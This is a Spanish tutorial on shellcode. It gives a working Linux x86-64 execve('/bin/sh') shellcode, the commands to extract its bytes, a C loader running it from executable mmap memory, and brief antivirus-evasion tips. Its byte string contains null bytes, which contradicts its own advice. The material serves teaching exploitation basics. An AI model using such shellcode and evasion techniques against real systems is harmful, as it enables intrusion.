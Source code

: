 # Shellcodes

### 1. ¿Qué es un Shellcode?
Un **shellcode** es un fragmento de código en lenguaje ensamblador diseñado para ejecutarse dentro de un proceso objetivo. 
Se usa comúnmente en **exploits** para tomar el control de un sistema vulnerable.

Los shellcodes pueden ejecutarse en memoria sin necesidad de archivos, lo que los hace ideales para ataques como **buffer overflows** o **inyecciones de código**.

### 2. Tipos de Shellcodes
Existen diferentes tipos de shellcodes según el contexto de ataque:

- **Shellcodes de usuario**: Se ejecutan dentro de procesos de usuario sin privilegios elevados.
- **Shellcodes de kernel**: Se ejecutan en el espacio de kernel, lo que permite un control total del sistema.
- **Shellcodes conectados a red**:
  - **Reverse shell**: Se conecta a un servidor remoto y permite al atacante tomar el control.
  - **Bind shell**: Abre un puerto en la máquina víctima para que el atacante se conecte.

### 3. Características de un Shellcode
Un shellcode efectivo debe cumplir con los siguientes criterios:

- **Pequeño**: Minimiza el tamaño para encajar en buffers pequeños.
- **Autocontenido**: No depende de librerías externas.
- **Evasivo**: Evita caracteres nulos (`\x00`) y detección por antivirus.
- **Portable**: Funciona en múltiples versiones del sistema operativo objetivo.

### 4. Creación de un Shellcode
Para crear un shellcode, se usa ensamblador y luego se convierte en una cadena de bytes. Por ejemplo, un shellcode en **Linux** adaptado para **64 bits** que ejecuta `/bin/sh`:

```assembly
section .text
    global _start

_start:
    xor rax, rax         ; Limpia rax
    push rax             ; NULL terminator
    mov rdi, 0x68732f6e69622f2f ; "//bin/sh" en hexadecimal
    push rdi
    mov rdi, rsp         ; Apunta rdi a "/bin//sh"
    xor rsi, rsi         ; argv = NULL
    xor rdx, rdx         ; envp = NULL
    mov rax, 59          ; syscall execve (59 en 64 bits)
    syscall              ; Llamada al kernel
```
### 5. Conversión de Shellcode a Cadena de Bytes

Para convertir un shellcode en ensamblador a una cadena de bytes.

Primero ensamblamos el código:

```bash
nasm -f elf64 -o shellcode.o shellcode.asm
```

Luego, lo vinculamos y obtenemos el shellcode en formato hexadecimal con `objdump`:

```bash
ld -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -o '\b[0-9a-f]\{2\}\b' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

Este comando genera una cadena de bytes que se puede inyectar en un programa.

### 6. Uso del Shellcode en C

Podemos probar el shellcode en un programa en C, tambien llamado un loader:

```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char shellcode[] = 
    "\x48\x31\xc0\x50\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57"
    "\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x3b\x00\x00\x00\x0f\x05";

int main() {
    printf("Ejecutando shellcode...\n");

    // Obtener el tamaño del shellcode
    size_t shellcode_size = sizeof(shellcode);

    // Reservar memoria RWX con mmap
    void *exec_mem = mmap(NULL, shellcode_size, 
                          PROT_READ | PROT_WRITE | PROT_EXEC, 
                          MAP_ANON | MAP_PRIVATE, -1, 0);
    
    if (exec_mem == MAP_FAILED) {
        perror("mmap");
        return 1;
    }

    // Copiar el shellcode a la memoria ejecutable
    memcpy(exec_mem, shellcode, shellcode_size);

    // Ejecutar el shellcode
    ((void(*)())exec_mem)();

    return 0;
}
```

Se copia a un segmento de memoria asignado dinámicamente con mmap() porque las secciones donde normalmente se almacenan los datos en un programa suelen tener permisos de solo lectura o sin permisos de ejecución, lo que impediría la ejecución del código.

Además, mmap() permite reservar una región de memoria con permisos específicos, como lectura, escritura y ejecución (PROT_READ | PROT_WRITE | PROT_EXEC), asegurando que el código almacenado en ella pueda modificarse y ejecutarse sin restricciones impuestas por el sistema operativo.


Compilamos y ejecutamos:

```bash
gcc -o shellcode_exec shellcode.c -z execstack -no-pie
./shellcode_exec
```

Si se ejecuta correctamente, abrirá una shell interactiva.

### 7. Evasión de Detección

Para evitar detecciones, se pueden aplicar técnicas como:

- **Codificación XOR**: Para evitar bytes nulos y firmas conocidas.
- **Obfuscación**: Alterar el orden de instrucciones sin cambiar la funcionalidad.
- **Cifrado Polimórfico**: Utilizar decodificadores automáticos.
